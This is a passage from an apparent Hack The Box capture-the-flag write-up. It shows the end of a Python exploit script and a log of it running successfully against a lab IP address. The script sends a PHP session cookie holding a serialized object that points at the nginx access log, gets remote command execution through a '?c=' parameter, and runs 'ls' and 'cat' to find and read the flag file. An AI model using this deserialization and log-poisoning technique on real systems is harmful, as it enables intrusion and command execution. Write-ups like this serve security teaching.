 ```python
dump = response.read()

# identify file name via rce
print("[*] Locating flag file...")
conn.request("GET", "/?c=ls+../", headers={"Host":host ,"Cookie": "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ=="})
response = conn.getresponse()
rText = str(response.read()).split("\\n")
for item in rText:
   if "flag_" in item and len(item.strip()) <= 10:
      flagName = item.strip()

# print flag content vi rce
print("[*] Getting flag...")
conn.request("GET", "/?c=cat+../" +  flagName, headers={"Host":host ,"Cookie": "PHPSESSID=Tzo5OiJQYWdlTW9kZWwiOjE6e3M6NDoiZmlsZSI7czoyNToiL3Zhci9sb2cvbmdpbngvYWNjZXNzLmxvZyI7fQ=="})
response = conn.getresponse()
rText = str(response.read()).split("\\n")
for item in rText:
   if "HTB{" in item and "}" in item:
      flag = item
      flag = flag.split(" ")
      for item2 in flag:
         if "HTB{" in item and "}" in item:
            flag = item2.replace("\"", "")

print(flag)
```

### exploit target
```bash
$ python3 exploit.py 206.189.121.78:31345
[*] Poisoning log file...
[*] Locating flag file...
[*] Getting flag...
HTB{P*********************!}
```

> Our exploit worked! We got the flag! 
{: .prompt-info }

Pwned! <@:-)
